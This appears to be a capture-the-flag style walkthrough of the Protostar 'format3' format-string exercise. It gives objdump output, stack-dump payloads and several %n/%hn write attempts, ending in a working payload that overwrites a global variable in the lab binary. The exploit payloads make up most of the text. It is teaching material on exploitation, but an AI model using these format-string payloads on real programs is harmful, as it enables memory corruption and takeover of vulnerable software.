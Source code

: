 Using `objdump -t` we can see where is the variable `target` is located.
```bash
objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target
```
So the global variable `target` is located at `080496f4`.

The next step is when encountering format string vulnerbility, it's good to just throw hex format with reasonable amount of format in order to dump the stack. 
```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "AAAA" + "%x "*20)') | grep --color=always -e "^" -e "80496f4"
�AAAA0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 80496f4 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825
target is 00000000 :(
```

The fact that we see `80496f4` `target` means we’ve successfully located the position in the stack where our input is being placed.

```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08"+ "%x "*12)') | grep --color=always -e "^" -e "80496f4"
�0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 80496f4
target is 00000000 :(


./format3 <<< $(python -c 'print("\xf4\x96\x04\x08"+ "%x "*11)') | grep --color=always -e "^" -e "80496f4"
�0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614
target is 00000000 :(
```

Next we need to make that `80496f4` equal to `0x01025544` or `16930116` in decimal


```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21828x%12$n")')

./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "%x "*11 + "%21828x%12$n")')
target is 00005590 :(


./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "%x "*11 + "%21752x%12$n")')
target is 00005544 :(


./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21828x%11$hn")')
target is 0000554c :(

./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$hn")')
target is 00005544 :(


./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$hn" + "%258x%13$hn")')

```

Finally the solution:
```bash
./format3 <<< $(python -c 'print("\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$hn" + "%43966x%13$hn")')
you have modified the target :)
```

